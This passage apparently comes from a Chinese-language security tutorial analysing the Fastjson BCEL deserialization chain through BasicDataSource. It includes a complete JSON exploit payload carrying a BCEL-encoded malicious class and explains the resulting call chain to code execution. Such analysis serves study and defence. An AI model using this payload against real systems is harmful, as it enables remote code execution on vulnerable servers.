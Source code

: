 ### 结果

成功执行了evil类中的命令

![image-20250210194225170](https://gitee.com/ling-x5/img/raw/master/image-20250210194225170.png)

## 七、BCEL Fastjson链条分析

Fastjson（1.1.15 - 1.2.4）可以使用其中有个dbcp的Payload就是利用了BCEL攻击链

### 攻击代码示例

```
{
  "@type": "org.apache.commons.dbcp.BasicDataSource",
  "driverClassName": "$$BCEL$$$l$8b$I$A$A$A$A$A$A$ffeP$c9N$CA$U$acf$9b$c5a$X$dc$b7$93$c0$B$3e$A$f4B$f4$o$8a$R$a2$e7$a6$ed$90$c6a$86$cc$M$84$3f$f2$cc$F$8d$H$3f$c0$8f2$be$99$Q$m$b1$P$af$bb$aa_$d5$5b$7e$7e$bf$be$B$5c$e1$dcD$Mq$N$J$LI$a4$Yr$p$3e$e3$N$9b$3b$c3Fw0$92$o$60H$b5$94$a3$82k$86x$a5$falB$87$a1$c1$b4$b0$D$8b$n$bfI$7f$9a$3a$81$gK$Gs$u$835$uU$aa$9d$7f9M$j$Z$G$5dp$5b$d4$e5$5c$86$9e9$Ly$U$Y$S$84$F$c3eeK$d5$L$3c$e5$M$9b$dbF$8f$9e$x$a4$ef75$ec2$U7$fc$cd$5c$c8I$a0$5c$c7D$Re$L$7b$e1L$d9$J$e9$83$5e$c0$c5$5b$df$e3Bj8$600$e4L$d9m$9b$fb$3e$Vm$bb$af$d4k$b6$a3$i$f90$j$P$a4$d7$e7$D$9b$Y$bd$r$ec$d5$f0$e9H$7f$cf$t$ab$_$b3$e7N$3d$noU$I2k$b3z$d8$L$$$b0Ok$NO$M$y$5c$y$c5CB$tt3$ba$93$b5$P$b0$F$3d$Y$8e$u$a6$o2Nk8$5e$a7v$p$vP$f8$84VH$_$91$7dy$87$7eW$5b$a2$b4$88x$D$W$8d$Y$8b$f4e$w$R$ba$Y$R$ab$nMNy$98T$O$84b$j$N$c5$E$89N$a3$7e$ce$fe$A$Pu$k$Y$fc$B$A$A",
  "driverClassLoader": {
    "@type": "org.apache.bcel.util.ClassLoader"
  }
}
```



FastJson自动调用setter方法修改 org.apache.commons.dbcp.BasicDataSource 类的 driverClassName 和 driverClassLoader 值，driverClassName 是经过BCEL编码后的 com.anbai.sec.classLoader.TestBCELClass 类字节码，driverClassLoader 是一个由FastJson创建的 org.apache.bcel.util.ClassLoader 实例。

Fastjson在autotype开启时，碰到@type字段时，会实例化相应的类，并把后续的字段按照`属性:值`的形式在类中进行封装

BasicDataSource 类的主要漏洞代码：

![image-20250211075655177](https://gitee.com/ling-x5/img/raw/master/image-20250211075655177.png)

![image-20250211080530219](https://gitee.com/ling-x5/img/raw/master/image-20250211080530219.png)

> **`BasicDataSource类`** 
>  实现了 `javax.sql.DataSource` 接口，部分版本在属性注入完成后（如 `driverClassName` 设置），会自动尝试初始化驱动以验证配置有效性。当 `driverClassName` 被注入时，`BasicDataSource` 可能直接尝试加载驱动类（通过 `Class.forName()`），从而触发`createConnectionFactory()`。

### 完整调用链

```
JSON.parseObject()
  → 反序列化 BasicDataSource 对象
    → 注入 driverClassLoader=BCEL ClassLoader
    → 注入 driverClassName=$$BCEL$$... 
    → BasicDataSource 初始化触发 createConnectionFactory()
      → Class.forName(driverClassName, true, driverClassLoader)
        → BCEL ClassLoader 加载并初始化恶意类
          → 静态代码块/构造函数中的代码被执行
```

